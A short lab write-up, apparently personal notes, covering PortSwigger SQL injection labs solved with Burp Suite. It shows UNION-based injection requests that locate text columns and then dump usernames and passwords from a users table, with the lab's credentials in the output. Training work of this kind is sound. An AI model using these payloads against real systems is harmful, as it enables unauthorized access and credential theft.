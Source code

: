 ```yaml
---
title: Lab - Burpsuite - SQL injection Lab
date: 2020-11-20 11:11:11 -0400
description: SQL injection
categories: [Lab, Burpsuite]
# img: /assets/img/sample/rabbit.png
tags: [Lab, Burpsuite]
---
```


[toc]

---

# SQL injection Lab


![Screen Shot 2020-11-20 at 19.14.01](https://i.imgur.com/b4oSEzN.png)

![Screen Shot 2020-11-20 at 19.14.14](https://i.imgur.com/DhNQ4t5.png)

[SQL injection lab link](https://portswigger.net/web-security/all-labs)

---

# LAB: SQL injection UNION attack, finding a column containing text

[SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)


```py
GET /filter?category=Corporate+gifts'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
# HTTP/1.1 200 OK

GET /filter?category=Food+%26+Drink'+UNION+SELECT+NULL,'F8A8xB',NULL-- HTTP/1.1
# HTTP/1.1 200 OK
```



# LAB: SQL injection UNION attack, retrieving data from other tables

[SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

```py
GET /filter?category=Corporate+gifts'+UNION+SELECT+'abc','def'-- HTTP/1.1
# HTTP/1.1 200 OK

GET /filter?category=Corporate+gifts'+UNION+SELECT+username,+password+FROM+users-- HTTP/1.1
# wiener
# vq9eg0fc9drxz6o79wpu

GET /filter?category=Corporate+gifts'+UNION+SELECT+username,+password+FROM+users-- HTTP/1.1
# wiener
# vq9eg0fc9drxz6o79wpu
# administrator
# jl4w29p7cx6lqfm2of19
# carlos
# nmyufdi8xv6u6w25phkt

```